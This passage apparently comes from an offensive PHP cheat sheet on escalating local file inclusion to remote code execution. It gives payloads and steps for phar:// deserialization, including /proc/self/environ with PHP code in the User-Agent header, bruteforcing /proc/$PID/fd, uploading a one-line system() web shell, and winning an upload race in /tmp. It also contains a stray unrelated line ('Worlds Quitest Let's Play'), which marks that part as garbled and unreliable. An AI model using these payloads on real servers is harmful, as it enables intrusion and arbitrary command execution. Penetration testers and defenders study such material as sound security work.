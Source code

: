If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method \_\_destruct() or \_\_wakeup() defined, then those methods are automatically invoked

```
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.

## **LFI to RCE via /proc/\*/fd** ##

1. Upload a lot of shells (for example : 100)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

## **LFI to RCE via /proc/self/environ** ##

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## **LFI to RCE via upload** ##

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf

## **LFI to RCE via upload (race)** ##

Worlds Quitest Let's Play"

* Upload a file and trigger a self-inclusion.
* Repeat 1 a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/\[0-9a-zA-Z]{6}
* Enjoy our shell.
